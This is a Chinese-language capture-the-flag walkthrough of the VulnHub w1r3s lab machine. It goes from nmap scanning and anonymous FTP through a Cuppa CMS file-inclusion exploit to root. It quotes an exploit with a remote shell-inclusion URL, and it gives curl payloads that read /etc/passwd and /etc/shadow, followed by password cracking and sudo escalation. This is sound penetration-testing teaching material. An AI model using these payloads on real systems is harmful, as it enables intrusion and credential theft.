

w1r3s 详解
===

>   参考: [视频](https://www.bilibili.com/video/BV1mB4y1j7K6)

w1r3s 靶机的下载地址:  [链接](https://download.vulnhub.com/w1r3s/w1r3s.v1.0.1.zip)

## Kali 设置

安装 Kali 镜像的过程不再赘述, 在完成账号设置后, 测试 Kali 环境即可。

### 设置 root 账户密码

在 `2020.1` 版本之后 Kali root 账户默认无密码，需**通过普通用户提权**。

输入这条命令和账户密码来设置 root 账户的密码:

```bash
sudo passwd root   # 先提权到root，再设置密码
```

>   在渗透测试中, 在命令执行出错时, 应该首先想到权限问题, 尝试加上或者去掉 `sudo` 之后再次尝试。

### 修改镜像源

添加阿里云镜像, 复制以下文本:

```bash
deb https://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src https://mirrors.aliyun.com/kali kali-rolling main non-free contrib
```

在 kali 终端中以 root 权限打开配置文件修改即可, 修改完毕后更新配置。

```bash
sudo mousepad /etc/apt/source
sudo apt update
```


## Nmap

在渗透测试中，Nmap 是最常用的网络探测工具之一, 使用 Nmap 时, 需要根据目标环境动态调整参数，平衡速度、隐蔽性和信息深度。

### 参数说明:

#### 端口/主机扫描参数（Port/Host Scanning）

|参数|意义|备注|示例|
|----|----|----|----|
|-p|扫描指定的**端口**|默认情况下扫描常用的1000个端口|nmap -p80,443,8080-8090 192.168.1.100|
|-p-|扫描1~65535全部**端口**|渗透测试常用, 能探测到隐藏端口|nmap -p- 192.168.1.100|
|--top-ports|扫描常用的若干端口|示例为20个常用端口|nmap --top-ports 20 192.168.1.2
|-sS|SYN半开放扫描| 需 root 权限，速度快|sudo nmap -sS 192.168.1.100|
|-sT|TCP全连接扫描| 无需 root 权限, 可绕过部分SYN检测的防火墙| nmap -sT 192.168.1.100|
|-sU|UDP端口扫描|探测DNS、SNMP等UDP服务|nmap -sU -p 53,161 192.168.1.100|
|-sL|仅生成目标**主机**列表|只扫描目标ip和主机名, 不发送探测包|nmap -sL 192.168.1.1-3|
|-sn|显示存活的**主机**|发出多种常规探测包(ARP, TCP等)|nmap -sn 192.168.1.0/24|

---

>   对比 `-sS` 和 `-sT`:
>   -   普通用户模式下默认扫描方式是 `-sT`, sudo 下默认扫描方式是`-sS`。
>   -   TCP 建立连接过程中一共有 3 次握手, `-sS` 连接时, 扫描机仅发送第一次握手的 SYN 包, 在收到了靶机的 ACK + SYN 包后, 将直接发送 RST 包重置连接, 因此该参数下并没有建立完整的 TCP 连接; 而 `-sT` 是指定了完整的 TCP 连接, 包含了完整的 3 次握手。这两种扫描方式各有好处, `-sS` 的效率更高, 但是部分防火墙会检测到这种不完整的 TCP 连接从而将其过滤, `-sT` 牺牲了一些速度来防止这种过滤, 但是会留下更多的日志, 降低了隐蔽性。

---

>   `-sL` 列表扫描通常非常难被发现, 因为它通过向 DNS 服务器发送**反向查询**而非主机本身来获取目标 IP 和主机名。

---

>   正常运维的系统管理员也会使用 `-sn` 指令, 且 `-sn` 指令提供的信息更有价值, 这条命令本身可以快速探查网络上有多少活跃主机, 或监视服务器的可用性。此外, `-sn` 相比对广播地址进行 ping 请求来说更可靠, 因为很多主机设置不会回应广播查询。非特权模式下, 只会发送 SYN 请求到目标的 80 和 443 端口(**传输层**), 特权模式下会发送 ARP 请求(**数据链路层**)。 

#### 输出设置参数

| 参数 | 意义 | 备注 | 示例 |
| ---- | ---- | ---- | ---- |
|-oN|输出结果到 txt 文件| |nmap -oN scan.txt 192.168.1.100|
|-oX|输出结果到 xml 文件| xml 与工具(如 Metasploit )集成性更好|nmap -oX scan.xml 192.168.1.100|
|-oG|输出结果到 gnamp 文件| gnamp 已经弃用 | nmap -oG scan.gnmap 192.168.1.100|
|-oA|输出多种形式的结果(全保留)|包含.gnamp, .xml等|nmap -oA scan.gnmap 192.168.1.100|

#### 其他常用设置

| 参数 | 意义 | 备注 | 示例 |
| ---- | ---- | ---- | ---- |
|-T0 ~ -T5|控制扫描速度|0最慢，5最快|nmap -T4 192.168.1.100|
|--min-rate<number>|数据包限速|一般来说将参数设为 10000 即可|nmap ---min-rate 10000 192.168.1.100|


## w1r3s 靶机

打靶之前, 先给靶机添加一个**快照**方便恢复, 免得玩坏了( 血的教训 )。

### 扫描 ip 地址

靶机和 Kali 都在 NAT 网络中, 则直接可以扫到靶机:

```bash
nmap -sn 192.168.170.0/24
```

---


可以通过开关靶机和 `ip a` 指令确定 `192.168.170.135` 为本机 IP, `192.168.170.136` 为靶机 IP。

### nmap 扫描端口

接下来扫描端口:

```bash
mkdir nmapscan
sudo -sT --min-rate 10000 -p- 192.168.170.136 -oA nmapscan/ports
ls -liah nmapscan
```

>   以最低 10000 的速度发送 tcp 全连接包扫描 192.168.170.136 上的全部端口, 并将结果全格式输出到 nmapscan 文件夹中, 命名为`port` 。

>   为了提高准确率, 防止防火墙 SYN 过滤, 使用 -sT 参数 

---


`ls -liah` 会列出该文件夹的所有项, 并列出详细信息, `liah` 分别表示*长格式, 显示唯一标识符, 显示隐藏文件(all), 显示文件大小*。


#### TCP 全连接扫描

进一步扫描, 实际上这一步中探测发送了大量的数据包, 被发现的风险大大提高, 最好将这个指令进行**拆分**进行**分阶段**的扫描。:

```bash
sudo nmap -sT -sV -sC -O -p21,22,80,3306 192.168.170.136 -oA nmapscan/detail 
```

---

|参数|含义|
|----|----|
|-sV|探测各个服务的版本|
|-sC|使用默认脚本探测|
|-O|探测操作系统版本|

---

>   如果上一步中的端口过多, 可以考虑批量处理端口:
>   ```bash
>   ports=$(grep open nmapscan/ports.nmap | awk -F '/' {print $1} | paste -sd ',')
>   ```
>   这一步将端口批量打印并复制到剪贴板, 这样只需要在最后构造指令时在 `-p` 处直接粘贴即可

---



根据扫描结果
-   Anonymous FTP login allowded:   表明允许 FTP 匿名登录, 很可能存在信息泄露。下方已经给出了 3 个目录。
-   80 端口使用的是 Apache 服务。
-   猜测主机系统为 Linux (Ubuntu)。

#### UDP 扫描

UDP 扫描明显快于 TCP:

```bash
sudo nmap -sU --top-ports 20 192.168.170.136 -oA nmapscan/udp
```

#### 漏洞扫描

```bash
sudo nmap --script=vuln -p21,22,80,3306 192.168.170.136 -oA nmapscan/vuln
```

结果如图:


>   虽然这里不会用, 但可以适当了解一下 slowloris: 通过少量但持久的连接**占满目标服务器的并发连接上限**，而非带宽。传统的 dos 攻击主要通过泛洪攻击, 而 slowloris 的策略在流量方面有更强隐蔽性。

### FTP 利用

根据 TCP 扫描结果直接进行 FTP 匿名登录, 匿名登录时账号为 Anonymous, 密码为空:

```bash
ftp 192.168.170.136
```


首先输入 `binary` 切换到**二进制模式**, 否则下载的文件很可能是损坏的。输入 `?` 可以查看指令帮助。

根据刚刚扫到的目录下载文件, 输入 `ls` 查看当前页面所有文件, 对于多个 txt 文件, 使用 `mget *.txt` 可以一次性下载大量文件, 减少重复工作。

之后一次性读取所有文件:

```bash
cat *.txt
```

结果如下:
```bash
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources

	ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ

```

这里有几个非常可疑的字符串:
-   `SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==` 显然是经过 Base64 编码, 解码后得到 `It is easy, but not that easy..` , 没用的车轱辘话。
-   `01ec2d8fc11c493b25029fb1f47f39ce` 是一串 MD5 哈希, 如果不清楚可以在 Kali 命令行输入`hash-identifier` 来进行猜测。随便找个工具进行 MD5 碰撞得到 `This is not a password`, 又是车轱辘话。
-   最下方的字符串经过翻转和逆序: `I don't know this is the way to the root`, 还是车轱辘话。

### mySQL 利用

尝试用 Linux 系统自带 root 账户登录 mySQL 服务:(`-u`: 用户名, `-p`: 密码)

```bash
mysql -h 192.168.170.136 -u root
```

不知道密码, 所以直接留空, 这里登录失败了, 遂放弃。

### 目录爆破

3306 和 21 端口已经测试完毕, 现在尝试 80 端口。首先直接在浏览器输入 ip 地址访问, 发现是 apache 的说明页面:


打开控制台, 也没有太多有用信息, 接下来目录爆破一下, 先安装爆破工具:

```bash
sudo apt install gobuster
```

之前扫描时发现了有 wordpress 的字样, 这里直接在地址栏尝试 `192.168.170.136/wordpress` , 发现跳转到了 `http://localhost/wordpress/`。尝试爆破:

> 下方的字典是 Kali 自带的目录爆破常用字典, 一般来说用这个就够用了。

```bash
sudo gobuster dir -u http://192.168.170.136 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

可以看到显示还存在一些别的目录。


前几个都进不去, 现在尝试一下 `192.168.170.136/administrator`, 显示某程序的安装页面:


最好先对靶机做个快照, 然后再点 Next, 按照提示安装是无法成功的, 但是可以看到这里使用的是 Cuppa KMS, 想到可以借助 `metasploit` 来找可以利用的漏洞。

### Metasploit

首先访问 `exploit-db.com`, 然后用 metasploit 在终端尝试按名称搜索 Cuppa KMS 相关漏洞。

```bash
searchsploit cuppa cms #或者直接搜 cuppa
```

---

可喜可贺, 正好只有一个漏洞, 那就着手利用了。


用 `-m` 或者 `--mirror` 将利用文件拷贝到当前目录:

```bash
searchsploit cuppa -m 25971.txt
cat 25971.txt
```

---

```bash
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /
 (________(
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22:
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------


#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "Db@dmin";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	}
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################
```

根据内容构造一下 url: `http://192.168.170.136/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, 无法访问, 想到 `cuppa` 可能替换为了 `administrator`, 替换之再试一下, 发现有跳转, 不过依然没有内容:


很有可能是缺少了传参。这里直接到 Github 的原码页面, 参照 ` <?php include($_REQUEST["urlConfig"]); ?>` 这段来审计源码, 可以看到源码: `<?php include "../components/table_manager/fields/config/" . @$cuppa->POST("urlConfig); ?>`, 说明这里是使用的 `POST` 方式传参, 并且结合漏洞文本, 很可能还进行了 Base64 编码。


接下来可以用 BP 或者直接用命令行编辑一个数据包发送

>	`curl --help all | grep url` 可以快速查看发包相关的 `curl` 指令 

---

```bash
curl  --data-urlencode  'urlConfig=../../../../../../../../../etc/passwd'  http://192.168.170.136/administrator/alerts/alertConfigField.php
```

可以看到 passwd 的大量回显:

```bash
...
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
...     
```
---

以上只展示了 4 条, 这里第二列全部为 `x` , 说明密码以哈希的形式存在 shadow 文件中, 立刻转到 shadow。

>	`passwd` 说明:
>	|字段|说明|
>	|----|----|
>	|username|用户登录名|
>	|x|密码, x为已哈希到 shadow 中|
>	|UID|用户 ID, 0 为 root, 1000+ 为普通用户|
>	|GID|用户所属主组的 ID|
>	|description|用户描述信息|
>	|home_directory|用户的家目录路径|
>	|login_shell|用户登录时默认的 Shell, nologin 和 false 表示禁止登录|

构造相似的请求:

```bash
curl  --data-urlencode  'urlConfig=../../../../../../../../../etc/shadow'  http://192.168.170.136/administrator/alerts/alertConfigField.php > shadow.h
```

同样可以读取:


### 远程登录

删掉没有哈希的无用项, 然后丢给 `john` 破解:

```bash
vim shadow.h
john shadow.h
```

---

>	`www-data` 属于功能性运维账户, 一般来说权限偏低。

已经有两个账户的密码得到了破解:


现在马上用 ssh 连接测试一下:

```bash
sudo ssh w1r3s@192.168.170.136
```


到这里已经拿下了一大半了, 接下来看看这个账户:

```bash
whoami
id
uname -a
sudo -l
```

---


通过 `id` 可以发现该账户有 sudo 权限, 继续提权:

```bash
sudo /bin/bash
```

---


```bash
cd /root
ls
cat flag.txt
```

切换到 root 目录, `ls` 一下, 发现有 `flag.txt`, 用 `cat` 打开, 大功告成。

